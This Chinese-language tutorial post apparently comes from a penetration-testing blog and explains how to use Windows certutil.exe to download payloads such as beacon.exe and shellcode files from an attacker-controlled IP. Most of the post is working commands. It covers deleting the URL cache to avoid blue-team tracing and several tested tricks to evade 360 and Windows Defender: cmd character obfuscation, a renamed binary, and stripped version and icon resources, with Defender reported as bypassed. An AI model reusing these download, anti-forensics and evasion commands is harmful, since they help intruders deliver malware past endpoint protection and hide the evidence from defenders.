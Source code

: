 # 简介

`certutil.exe`是Windows操作系统中的一个命令行程序，主要用于处理和管理证书。这个工具可以用于执行各种与证书有关的任务，包括：

1. **查看证书详情**：您可以使用`certutil.exe`来查看已安装证书的详细信息，包括其签发者，有效期，公钥和私钥等。
2. **导入和导出证书**：`certutil.exe`可以用来导入或导出证书，这对于备份或迁移证书非常有用。
3. **创建和删除证书**：使用`certutil.exe`，您可以创建新的自签名证书，或者删除不再需要的证书。
4. **管理证书库**：`certutil.exe`还允许您查看和管理您的证书库，这是存储所有证书的地方。



# certutil常用命令

输入`certutil -?`查看此命令的更多操作，如下图所示：

![image-20230712215609377](certutil过360/image-20230712215609377.png)



以下是certutil在渗透测试中常用到的一些命令参数：

- `-dump`: 显示证书的内容。例如：`certutil -dump myfile.cer`
- `-decode`: 解码 Base64 编码的文件。此选项可以用于解密或提取通过 Base64 编码的数据。例如：`certutil -decode inputfile outputfile`
- `-encode`: 将文件编码为 Base64。这可以用于将二进制数据编码为文本。例如：`certutil -encode inputfile outputfile`
- `-urlcache`: 显示或删除 URL 缓存的条目。在渗透测试中，这可以用于获取关于被访问的网页的信息。例如：`certutil -urlcache`
- `-f`: 强制覆盖现有文件或下载。在与 `-urlcache` 结合使用时，`-f` 选项可以用于下载文件。例如：`certutil -urlcache -split -f http://example.com/myfile`，其中`-split`选项将文件拆分为小的块（如果需要在下载大文件时，这可能有助于提高性能



certutil最常用到的命令还得是远程文件下载：`certutil -urlcache -split -f http:// 192.168.0.103/beacon.exe`

![image-20230712220849062](certutil过360/image-20230712220849062.png)	



但是下载文件后会产生缓存，可通过`certutil -urlcache *`进行查看

![image-20230712221250955](certutil过360/image-20230712221250955.png)



避免蓝队查看缓存溯源，可以执行`certutil -urlcache * delete`来删除所有缓存

![image-20230712222627288](certutil过360/image-20230712222627288.png)

![image-20230712222910681](certutil过360/image-20230712222910681.png)	



或者在下载命令后面加个delete来删除当前下载文件的缓存：`certutil -urlcache -split -f http:// 192.168.0.103/beacon.exe delete`

![image-20230712222958364](certutil过360/image-20230712222958364.png)



使用 `certutil` 命令下载文件时，文件的存放位置取决于你在命令行中指定的路径。如果你没有指定路径，那么文件会被保存到你当前的工作目录，例如此处我是在`C:\Users\hasee`目录下执行的certutil命令

![image-20230712223214002](certutil过360/image-20230712223214002.png)		



如果你想要将下载的文件保存到特定位置，你可以在文件名中填写完整路径

```
certutil -urlcache -split -f http://192.168.0.103:8000/beacon.exe C:\beacon.exe
```

![image-20230712223710208](certutil过360/image-20230712223710208.png)



# 绕过360实战

在360核晶模式环境下，运行certutil命令远程下载文件，不出所料，被拦截掉了

![image-20230713201900899](certutil过360/image-20230713201900899.png)



以下命令利用Windows命令行解析器对特殊字符的处理规则进行混淆, 但还是会被核晶查杀

- 分号(`;`)和逗号(`,`)会被cmd命令忽略，
- `@` 符号在CMD中用于关闭命令回显，意味着运行 `@certutil` 不会在命令行中显示任何输出
- 在`-urlcache`参数插入双引号(`""`)同样也会被解析器忽略

```
;,,@certutil  -u""r""l""c""a""c""h""e"" -split  -f http://192.168.0.103:8000/shellcode_hex.txt
```

![image-20230713204717895](certutil过360/image-20230713204717895.png)



看了先知社区师傅的一篇文章：https://xz.aliyun.com/t/12503，在命令后面加个`-deletePolicyServer`参数,  其作用是命令执行后会生成对应文件的缓存文件，但是这种方法失效了，依然会被360拦截

> 还有其他类似参数：`-DeleteHelloContainer`、`-deleteEnrollmentServer`、`-deleteEccCurve`

```
;,@certutil  -u""r""l""c""a""c""h""e"" -split  -f http://192.168.0.103:8000/shellcode_hex.txt -deletePolicyServer
```

![image-20230713213757568](certutil过360/image-20230713213757568.png)

​	

尝试将certutil文件拷贝出来执行，依旧被拦截，个人推测360是通过校验hash方法来判断你执行的可执行程序是否是certutil

```
copy C:\Windows\system32\certutil.exe cert.exe

cert.exe -u""r""l""c""a""c""h""e"" -split  -f http://192.168.0.103:8000/shellcode_hex.txt -deletePolicyServer
```

![image-20230713213912937](certutil过360/image-20230713213912937.png)

​	

将certutil.exe拖入`Resource Hacker`中，删除其版本和图标信息

![image-20230713213426191](certutil过360/image-20230713213426191.png)



修改后的certutil并不需要做命令混淆，直接执行即可：`cert.exe -urlcache -split -f http://192.168.0.103:8000/shellcode_hex.txt`，没有被拦截，但是这种情况在实战中并没有太大的用处

![image-20230713214110405](certutil过360/image-20230713214110405.png)



# 绕Defender	

WindowsDefender绕过比较简单，使用`“`和`^`符号做下命令混淆就能bypass, 如下两个都是bypass成功的示例代码

```
cer^tu^til  -url""""cach""""e -sp""lit  -f http://192.168.0.103:8000/shellcode_hex.txt
certutil  -url""""cach""""e -sp""lit  -f http://192.168.0.103:8000/shellcode_hex.txt
```

![image-20230713215011940](certutil过360/image-20230713215011940.png)

​					

# 参考链接

- https://xz.aliyun.com/t/12503
- https://www.freebuf.com/articles/endpoint/334548.html
